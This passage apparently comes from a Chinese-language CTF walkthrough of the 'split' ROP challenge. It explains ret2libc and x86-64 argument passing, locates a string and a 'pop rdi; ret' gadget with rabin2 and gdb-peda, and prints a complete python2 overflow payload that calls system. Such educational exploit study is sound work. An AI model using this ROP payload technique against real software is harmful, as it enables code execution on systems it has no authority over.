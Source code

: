 注意 "BBBB" 是新的返回地址，如果函数 ret，就会执行 "BBBB" 处的指令，通常这里会放置一些 `pop;pop;ret` 之类的指令地址，以平衡堆栈。从 system() 函数中也能看出来，它现将 esp 减去 0xc，再取地址 esp+0x10 处的指令，也就是 "BBBB" 的后一个，即字符串的地址。因为 `system()` 是 libc 中的函数，所以这种方法称作 ret2libc。

### split

```text
$ rabin2 -z split
...
vaddr=0x00601060 paddr=0x00001060 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
```

字符串地址在 `0x00601060`。

```text
gdb-peda$ disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400807 <+0>:     push   rbp
   0x0000000000400808 <+1>:     mov    rbp,rsp
   0x000000000040080b <+4>:     mov    edi,0x4008ff
   0x0000000000400810 <+9>:     call   0x4005e0 <system@plt>
   0x0000000000400815 <+14>:    nop
   0x0000000000400816 <+15>:    pop    rbp
   0x0000000000400817 <+16>:    ret
End of assembler dump.
```

64 位程序的第一个参数通过 edi 传递，所以我们需要再调用一个 gadgets 来将字符串的地址存进 edi。

我们先找到需要的 gadgets：

```text
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x00400883 : (b'5fc3')  pop rdi; ret
```

下面是 payload：

```text
$ python2 -c "print 'A'*40 + '\x83\x08\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x10\x08\x40\x00\x00\x00\x00\x00'" | ./split
...
> ROPE{a_placeholder_32byte_flag!}
```

那我们是否还可以用前面那种方法调用 `system()` 的 plt 地址 `0x4005e0` 呢：

```text
gdb-peda$ disassemble system
Dump of assembler code for function system:
   0x00007ffff7a63010 <+0>:     test   rdi,rdi
   0x00007ffff7a63013 <+3>:     je     0x7ffff7a63020 <system+16>
   0x00007ffff7a63015 <+5>:     jmp    0x7ffff7a62a70 <do_system>
   0x00007ffff7a6301a <+10>:    nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7a63020 <+16>:    lea    rdi,[rip+0x138fd6]        # 0x7ffff7b9bffd
   0x00007ffff7a63027 <+23>:    sub    rsp,0x8
   0x00007ffff7a6302b <+27>:    call   0x7ffff7a62a70 <do_system>
   0x00007ffff7a63030 <+32>:    test   eax,eax
   0x00007ffff7a63032 <+34>:    sete   al
   0x00007ffff7a63035 <+37>:    add    rsp,0x8
   0x00007ffff7a63039 <+41>:    movzx  eax,al
   0x00007ffff7a6303c <+44>:    ret
End of assembler dump.
```
